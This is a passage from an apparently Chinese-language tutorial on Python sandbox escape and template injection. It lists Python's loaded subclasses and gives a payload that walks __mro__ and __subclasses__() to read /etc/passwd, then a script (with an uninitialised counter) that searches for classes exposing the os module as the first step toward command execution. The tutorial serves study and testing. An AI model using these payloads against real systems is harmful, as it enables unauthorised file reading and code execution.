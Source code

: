 ```
b_external._LoaderBasics'>, <class '_frozen_importlib_external.FileLoader'>, <class '_frozen_importlib_external._Name
spacePath'>, <class '_frozen_importlib_external._NamespaceLoader'>, <class '_frozen_importlib_external.PathFinder'>,
<class '_frozen_importlib_external.FileFinder'>, <class '_io._IOBase'>, <class '_io._BytesIOBuffer'>, <class '_io.Inc
rementalNewlineDecoder'>, <class 'nt.ScandirIterator'>, <class 'nt.DirEntry'>, <class 'PyHKEY'>, <class 'zipimport.zi
pimporter'>, <class 'zipimport._ZipImportResourceReader'>, <class 'codecs.Codec'>, <class 'codecs.IncrementalEncoder'
>, <class 'codecs.IncrementalDecoder'>, <class 'codecs.StreamReaderWriter'>, <class 'codecs.StreamRecoder'>, <class '
MultibyteCodec'>, <class 'MultibyteIncrementalEncoder'>, <class 'MultibyteIncrementalDecoder'>, <class 'MultibyteStre
amReader'>, <class 'MultibyteStreamWriter'>, <class '_abc_data'>, <class 'abc.ABC'>, <class 'dict_itemiterator'>, <cl
ass 'collections.abc.Hashable'>, <class 'collections.abc.Awaitable'>, <class 'collections.abc.AsyncIterable'>, <class
 'async_generator'>, <class 'collections.abc.Iterable'>, <class 'bytes_iterator'>, <class 'bytearray_iterator'>, <cla
ss 'dict_keyiterator'>, <class 'dict_valueiterator'>, <class 'list_iterator'>, <class 'list_reverseiterator'>, <class
 'range_iterator'>, <class 'set_iterator'>, <class 'str_iterator'>, <class 'tuple_iterator'>, <class 'collections.abc
.Sized'>, <class 'collections.abc.Container'>, <class 'collections.abc.Callable'>, <class 'os._wrap_close'>, <class '
os._AddedDllDirectory'>, <class '_sitebuiltins.Quitter'>, <class '_sitebuiltins._Printer'>, <class '_sitebuiltins._He
lper'>]
```

4.利用

	''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()

![UgolQg.png](https://s1.ax1x.com/2020/07/18/UgolQg.png)

可以看到读取到了文件。

#### 命令执行

继续看命令执行payload的构造，思路和构造文件读取的一样。

寻找包含os模块的脚本

```
#!/usr/bin/env python
# encoding: utf-8
for item in ''.__class__.__mro__[2].__subclasses__():
    try:
         if 'os' in item.__init__.__globals__:
             print num,item
         num+=1
    except:
        print '-'
        num+=1
```

